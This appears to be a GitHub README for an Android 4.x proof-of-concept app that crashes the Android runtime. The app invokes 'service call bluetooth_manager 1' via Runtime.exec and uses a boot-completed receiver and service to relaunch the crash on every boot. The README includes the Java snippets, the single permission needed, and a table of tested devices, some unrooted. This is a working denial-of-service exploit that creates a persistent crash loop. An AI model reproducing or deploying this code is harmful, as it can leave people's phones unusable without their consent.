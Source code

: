 android_bt_manager
==================

This Android 4.x application causes the Android runtime to crash Android.io by making a service call to bluetooth_manager. 

**How it works:**
- `MainActivity` sends service call to `IBluetoothManager`: `Runtime.getRuntime().exec("service call bluetooth_manager 1");`
- `BootReceiver`, a `BroadcastReceiver` waits for `ACTION_BOOT_COMPLETED` to start `Crash` service. 

```Java
if (Intent.ACTION_BOOT_COMPLETED.equals(intent.getAction())) {
    Intent serviceIntent = new Intent(context, Crash.class);
    context.startService(serviceIntent);
}
```

- `Crash` service starts the `MainActivity` 

```Java
Intent i = new Intent(this, MainActivity.class);
i.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
startActivity(i);
```

- Repeat. 

**Application Permissions:** 
- `RECEIVE_BOOT_COMPLETED`

**This application has been tested on the following devices:**

|   Device   |   OS   | Rooted | Runtime |
| ---------- |:------:|:------:|:-------:|
| Nexus 5    | 4.4.2  | ✓      | ART     |
| Moto X     | 4.4.3  | x      | ART     |
| Nexus 5    | 4.4.3  | ✓      | ART     |
